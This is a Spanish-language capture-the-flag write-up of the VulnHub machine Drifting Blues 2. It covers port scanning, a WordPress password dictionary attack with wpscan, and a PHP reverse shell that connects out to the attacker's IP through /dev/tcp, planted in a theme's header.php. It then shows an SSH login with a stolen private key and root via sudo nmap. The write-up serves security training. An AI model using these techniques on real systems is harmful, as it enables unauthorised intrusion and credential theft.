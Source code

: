 ```yaml
---
title: Driffting Blues 2
date: 2024-07-09
categories: [WRITEUPS, VulnHub]
tags: []  # TAG names should always be lowercase
---
```


En este ***Writeup*** se engloban las siguientes fases:
- **[Reconocimiento](#reconocimiento)**
- **[Explotación](#explotación)**
- **[Escalada de privilegios](#escalada-de-privilegios)**

---

## **Reconocimiento**

Lo primero que realizaremos una vez conozcamos la dirección *IP*, será realizar un escaneo con **NMAP**, para comprobar los puertos que tiene abiertos.

```bash
nmap -p- --open -T5 192.168.1.145 -n -Pn -v
```

![picture](/assets/images/vulnhub/db2-1.png){: w="600" h="300" }

Una vez comprobado, se lanzarán los scripts predeterminados de NMAP, para ver si encuentra algo significativo en los puertos que se han encontrado abiertos.

```bash
nmap -p21,22,80 -sC -sV 192.168.1.145 -v
```

![picture](/assets/images/vulnhub/db2-2.png){: w="600" h="300" }

Se encuentra que el usuario **Anonymous** del servicio **FTP** está activo, y en su directorio podemos encontrar una imagen llamada "*secret.jpg*".

![picture](/assets/images/vulnhub/db2-3.png){: w="600" h="300" }
![picture](/assets/images/vulnhub/db2-4.png){: w="600" h="300" }

A continuación, iremos a la página web para ver su contenido.

![picture](/assets/images/vulnhub/db2-5.png){: w="600" h="300" }

No se aprecia nada, así que se realizará **Fuzzing**, para intentar encontrar alguna entrada que no se pueda ver.

```bash
gobuster dir -u http://192.168.1.145/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .txt,.php,.html,.sh,.png,.jpg,.jpeg -b 404,403 
```

![picture](/assets/images/vulnhub/db2-6.png)

Gobuster encuentra "**/blog/**", pero no se ven los estilos de la página.

![picture](/assets/images/vulnhub/db2-7.png)

Viendo el código fuente de la página, se puede comprobar que el servidor asociado a la **IP** tiene un nombre de **dominio**, el cual lo habrá que añadirlo al archivo "**/etc/hosts**".

![picture](/assets/images/vulnhub/db2-8.png)
![picture](/assets/images/vulnhub/db2-9.png)

Con esto ya se puede ver la página web tal como es, esto ocurre porque los servidores web a menudo utilizan nombres de dominio para decidir qué contenido mostrar, especialmente cuando se manejan múltiples sitios en la misma dirección IP. Usar un nombre de dominio en lugar de una IP permite que el servidor web sirva el contenido adecuado según la configuración de "virtual hosts". Cuando configuras el nombre de dominio en /etc/hosts, le estás diciendo a tu máquina que use ese nombre de dominio para la IP dada, lo que permite al servidor web responder correctamente basándose en esa información.

![picture](/assets/images/vulnhub/db2-10.png)

Con **Wappalyzer**, que es una extensión del navegador gratuita, se puede ver qué está corriendo por detrás de la página web, el gestor de contenidos es *Wordpress*, usa *php*, *mysql*, etc.

![picture](/assets/images/vulnhub/db2-12.png){: w="300" h="200" }

A continuación realizaré **Fuzzing** sobre "*http://driftingblues.box/blog/*" para ver si hubiera más entradas dentro de "**/blog/**".

![picture](/assets/images/vulnhub/db2-13.png)

---

## **Explotación**

Al ver que está corriendo un **Wordpress**, con **WPSCAN**, se podrá hacer un escaneo del gestor, (*es recomendable crearse una cuenta en WPSCAN para poder obtener la API-token, que sirve para acceder a ciertos servicios y características avanzadas proporcionados por WPScan*).

Ésta herramienta puede buscar *usuarios*, *vulnerabilidades*, *plugins*, *temas*... En este caso se buscarán usuarios.

```bash
wpscan --url http://driftingblues.box/blog -e u --api-token="API"
```

![picture](/assets/images/vulnhub/db2-14.png){: w="600" h="300" }

Y **WPSCAN** nos encuentra un usuario.

![picture](/assets/images/vulnhub/db2-15.png){: w="600" h="300" }

A continuación, se realizará un** ataque de diccionario** con la misma herramienta para encontrar la contraseña (*-U usuario*) (*-P ruta del diccionario*).

```bash
wpscan --url http://driftingblues.box/blog -U "usuario" -P /usr/share/wordlists/rockyou.txt --api-token="API"
```

![picture](/assets/images/vulnhub/db2-16.png)

Y encuentra la contraseña, así que lo siguiente será probar a entrar en el panel de autenticación **wp-admin** que había reportado antes **Gobuster** mediante el **Fuzzing** realizado en "*http://driftingblues.box/blog/*".

![picture](/assets/images/vulnhub/db2-17.png)

Y obtenemos acceso al panel del administrador.

![picture](/assets/images/vulnhub/db2-19.png)

A continuación, lo siguiente será obtener una **Shell interactiva** en nuestra máquina local, podremos escribir código **PHP** que se ejecutará dentro de "*Theme File Editor*", en el archivo "*header.php*".

```php
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/'Nuestra IP'/4444 0>&1'");
?>
```

![picture](/assets/images/vulnhub/db2-20.png)

Y una vez guardado el archivo, se creará un **Listener** en la máquina local con **ncat** por el puerto indicado en la **Reverse Shell**.

- *Listener*

    ```bash
    nc -nlvp 4444
    ```

En el navegador, para poder ejecutar la **Reverse shell**, se introducirá la ruta del archivo "*header.php*". 

![picture](/assets/images/vulnhub/db2-21.png)

Y automáticamente, nos mandará una** Shell interactiva**, con lo cual, ya estaremos dentro del servidor.

![picture](/assets/images/vulnhub/db2-22.png){: w="600" h="300" }

---

## **Escalada de privilegios**

Se realiza un tratamiento de la **TTY** para poder movernos mejor por la máquina.

Dentro de la máquina, el la ruta "**/home/**" se encuentra un usuario llamado **freddie**, no tenemos acceso a su directorio personal, lo siguiente será intentar migrar de usuario a **freddie**.

![picture](/assets/images/vulnhub/db2-23.png)

Viendo los permisos que tenemos dentro del directorio personal de **freddie**, se comprueba que el usuario **www-data** tiene permisos de lectura en el directorio "**.ssh**", que es el cual almacena las claves de conexión de ssh, y dentro del directorio indicado, también tiene permisos de lectura en la clave privada "**id_rsa**".

![picture](/assets/images/vulnhub/db2-24.png){: w="600" h="300" }

Mediante **SSH** se intentará entrar en el servidor como el usurio **freddie**, para ello, habrá que copiar la clave privada para crear un archivo con la clave en nuestra máquina local, la llamaremos igual (la clave privada tiene que tener permisos 600).

![picture](/assets/images/vulnhub/db2-25.png){: w="600" h="300" }

Se prueba a entrar, y se obtiene acceso al servidor como el usuario **freddie**.

![picture](/assets/images/vulnhub/db2-26.png){: w="600" h="300" }

Dentro del directorio personal de freddie, se encuentra la primera **flag**.

![picture](/assets/images/vulnhub/db2-27.png){: w="600" h="300" }

Comprobando los permisos de **SUDO** que tiene el usuario **freddie**, se comprueba que tiene los permisos en el binario "**/usr/bin/nmap**".

La web de **GTFObins** es una base de datos y un recurso para encontrar y documentar binarios de sistemas Unix/Linux, que pueden ser utilizados para obtener escalada de privilegios o ejecutar comandos en un entorno comprometido.

Dentro de la [**WEB**](https://gtfobins.github.io/gtfobins/nmap/) nos indica como escalar privilegios.

Lo ejecutamos, y obtenemos la shell de **root**, en su directorio personal encontramos la segunda **flag**.

![picture](/assets/images/vulnhub/db2-28.png){: w="600" h="300" }











